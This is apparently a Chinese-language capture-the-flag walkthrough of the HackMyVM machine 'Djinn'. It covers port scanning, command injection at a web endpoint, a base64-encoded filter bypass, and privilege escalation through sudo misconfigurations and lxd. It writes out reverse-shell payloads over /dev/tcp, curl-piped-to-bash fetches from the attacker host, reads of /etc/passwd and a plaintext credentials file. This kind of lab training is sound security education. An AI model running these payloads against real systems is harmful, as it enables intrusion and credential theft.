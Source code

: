 # Djinn

2025.02.15 https://hackmyvm.eu/machines/machine.php?vm=Djinn

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
1337/tcp open  waste
7331/tcp open  swx
```

ftp 可以匿名登陆，将其内容全部下载后查看。

```
nitu:81299

oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the
final level and get the prize.

@nitish81299 I am going on holidays for few days, please take care of all the work.
And don't mess up anything.
```

说 1337 端口上有一个游戏，使用 nc 进行连接，发现是个计算游戏，但是好像没看出什么漏洞，估计是个兔子洞。

在看 7331 这个端口，是个 web 页面，源码中也没什么信息，使用 gobuster 进行扫描，发现了 http://192.168.5.40:7331/wish 这里实现命令执行：

```
curl --data-urlencode "cmd=whoami" http://192.168.5.40:7331/wish
```

直接在 kali 上建立监听，然后执行反弹：

```
nc -lvnp 8888
curl --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'" http://192.168.5.40:7331/wish
```

这里不能执行，显示 Wrong choice of words 应该是后台有过滤，需要绕过，尝试用 base64 进行绕过：

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish

root:x:0:0:root:/root:/bin/bash
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
```

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish
```

对下面的代码进行 base64：

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'

L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==
```

然后执行：

```
curl --data-urlencode "cmd=echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==|base64 -d|bash" http://192.168.5.40:7331/wish
```

这时在 kali 上得到了反弹的 shell：

```
www-data@djinn:/opt/80$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

然后发现了一个用户登陆凭据：

```
www-data@djinn:/home/nitish$ cat .dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

su 切换到 nitish 用户，得到了 user flag：

```
nitish@djinn:~$ cat user.txt
HMV{WW91IGZvdW5kIHRoZSBmaXJzdCBzdGVw}
```

sudo -l 发现 (sam) NOPASSWD: /usr/bin/genie 可以直接提权到 sam 用户：

```
sudo -u sam /usr/bin/genie -c 'curl http://192.168.5.3/5-3/8888.sh|bash'
```

但是出现提示：Pass your wish to GOD, he might be able to help you. 应该是有过滤。尝试找到更多的命令帮助 man genie 发现了一个参数 -cmd ：

```
-cmd
You know sometime all you new is a damn CMD, windows I love you.
```

sudo -u sam genie -cmd whoami 执行后，得到了 sam 权限，sudo -l 发现另外的命令： (root) NOPASSWD: /root/lago , 但是没有执行权限。

发现 sam 用户属于 lxd 用户组，想着借助 lxd 提权，但是提示有问题：

```
Error: Unable to read the configuration file: open /home/nitish/.config/lxc/config.yml: permission denied
```

发现在 sam 目录中有一个 .pyc 文件，将其反编译，得到源码：

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'

if __name__ == '__main__':
    main(options())
```

sudo -l 发现 (root) NOPASSWD: /root/lago ，先尝试执行：

```
sudo -u root /root/lago
```

发现程序显示的内容和上面的 pyc 代码反编译出来的一致，找到执行逻辑，发现 guessit() 可以执行命令，输入 2 直接得到了 root 权限：

```
sam@djinn:/home/sam$ sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100:
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
lago  root.txt
# cat root.txt
HMV{eWVzIHlvdSBhcmUgY29vbA==}
```

```
find / -name lxc 2>/dev/null

cd /tmp

wget http://192.168.5.3/scripts/lin/lxc/alpine-v3.13-x86_64-20210218_0139.tar.gz

/usr/bin/lxc image import /tmp/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage

/usr/bin/lxc image list

/usr/bin/lxc init lxcimage ignite -c security.privileged=true  # 这句话执行时会报错，提示先创建pool，就按照下面代码继续执行

/usr/bin/lxc storage create pool dir
/usr/bin/lxc profile device add default root disk path=/ pool=pool
/usr/bin/lxc init lxcimage ignite -c security.privileged=true
/usr/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/usr/bin/lxc start ignite
/usr/bin/lxc exec ignite /bin/sh
```

